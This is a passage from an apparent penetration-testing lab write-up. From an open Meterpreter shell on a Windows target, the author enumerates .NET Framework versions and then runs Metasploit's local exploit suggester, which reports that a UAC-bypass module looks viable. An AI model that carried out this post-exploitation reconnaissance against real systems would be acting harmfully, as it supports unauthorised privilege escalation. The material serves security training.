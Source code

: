 To check the .NET versions on the target machine,

```c
meterpreter > shell
Process 1172 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v2.0.50727
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.0
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.5

c:\windows\system32\inetsrv>dir c:\Windows\Microsoft.NET\Framework        
dir c:\Windows\Microsoft.NET\Framework
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Windows\Microsoft.NET\Framework

...

14/07/2009  04:37 ��    <DIR>          v1.0.3705
14/07/2009  04:37 ��    <DIR>          v1.1.4322
18/03/2017  01:06 ��    <DIR>          v2.0.50727
14/07/2009  06:56 ��    <DIR>          v3.0
14/07/2009  06:52 ��    <DIR>          v3.5
              18 File(s)        309.424 bytes
               7 Dir(s)   4.697.403.392 bytes free

c:\windows\system32\inetsrv>
```

Anyways thats going to take some time, instead of that we are going to use ```Local Exploit Suggester``` from ```metasploit``` which is almost similar to ```Watson```

```c
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > search local exploit suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester
msf6 exploit(multi/handler) > use 0
msf6 post(multi/recon/local_exploit_suggester) > set session 2
session => 2
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 40 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
```